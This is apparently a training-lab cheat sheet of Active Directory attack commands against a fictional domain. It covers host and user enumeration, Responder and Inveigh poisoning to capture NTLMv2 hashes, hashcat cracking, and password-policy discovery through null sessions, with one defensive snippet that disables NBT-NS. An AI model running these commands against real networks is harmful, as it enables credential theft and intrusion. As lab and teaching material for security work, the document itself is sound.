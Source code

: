 | Command | Description |
## Initial Enumeration
| `nslookup ns1.inlanefreight.com` | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
| `sudo tcpdump -i ens224` | Used to start capturing network packets on the network interface proceeding the -i option a Linux-based host. |
| `sudo responder -I ens224 -A` | Used to start responding to & analyzing LLMNR, NBT-NS and MDNS queries on the interface specified proceeding the -I option and operating in Passive Analysis mode which is activated using -A. Performed from a Linux-based host. |
| `fping -asgq 172.16.5.0/23` | Performs a ping sweep on the specified network segment from a Linux-based host. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an nmap scan that with OS detection, version detection, script scanning, and traceroute enabled (-A) based on a list of hosts (hosts.txt) specified in the file proceeding -iL. Then outputs the scan results to the file specified after the -oNoption. Performed from a Linux-based host. |
| `sudo git clone https://github.com/ropnop/kerbrute.git` | Uses git to clone the kerbrute tool from a Linux-based host. |
| `make help` | Used to list compiling options that are possible with make from a Linux-based host. |
| `sudo make all` | Used to compile a Kerbrute binary for multiple OS platforms and CPU architectures. |
| `./kerbrute_linux_amd64` | Used to test the chosen complied Kebrute binary from a Linux-based host. |
| `sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute` | Used to move the Kerbrute binary to a directory can be set to be in a Linux user's path. Making it easier to use the tool. |
| `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Runs the Kerbrute tool to discover usernames in the domain (INLANEFREIGHT.LOCAL) specified proceeding the -d option and the associated domain controller specified proceeding --dcusing a wordlist and outputs (-o) the results to a specified file. Performed from a Linux-based host. |

## LLMNR/NTB-NS Poisoning
| `responder -h` | Used to display the usage instructions and various options available in Responder from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses hashcat to crack NTLMv2 (-m) hashes that were captured by responder and saved in a file (frond_ntlmv2). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1` | Using the Import-Module PowerShell cmd-let to import the Windows-based tool Inveigh.ps1. |
| `(Get-Command Invoke-Inveigh).Parameters` | Used to output many of the options & functionality available with Invoke-Inveigh. Peformed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y` | Starts Inveigh on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe` | Starts the C# implementation of Inveigh from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host. |

## Password Spraying & Password Policies
| `#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done` | Bash script used to generate 16,079,616 possible username combinations from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Uses CrackMapExec and valid credentials (avazquez:Password123) to enumerate the password policy (--pass-pol) from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5` | Uses rpcclient to discover information about the domain through SMB NULL sessions. Performed from a Linux-based host. |
| `rpcclient $> querydominfo` | Uses rpcclient to enumerate the password policy in a target Windows domain from a Linux-based host. |
| `enum4linux -P 172.16.5.5` | Uses enum4linux to enumerate the password policy (-P) in a target Windows domain from a Linux-based host. |
| `enum4linux-ng -P 172.16.5.5 -oA ilfreight` | Uses enum4linux-ng to enumerate the password policy (-P) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the -oA option. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength` | Uses ldapsearch to enumerate the password policy in a target Windows domain from a Linux-based host. |
| `net accounts` | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
| `Import-Module .\PowerView.ps1` | Uses the Import-Module cmd-let to import the PowerView.ps1 tool from a Windows-based host. |
| `Get-DomainPolicy` | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
| `enum4linux -U 172.16.5.5 \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"` | Uses enum4linux to discover user accounts in a target Windows domain, then leverages grep to filter the output to just display the user from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser` | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 --users` | Uses CrackMapExec to discover users (--users) in a target Windows domain from a Linux-based host. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" \| grep sAMAccountName: \| cut -f2 -d" "` | Uses ldapsearch to discover users in a target Windows doman, then filters the output using grep to show only the sAMAccountName from a Linux-based host. |
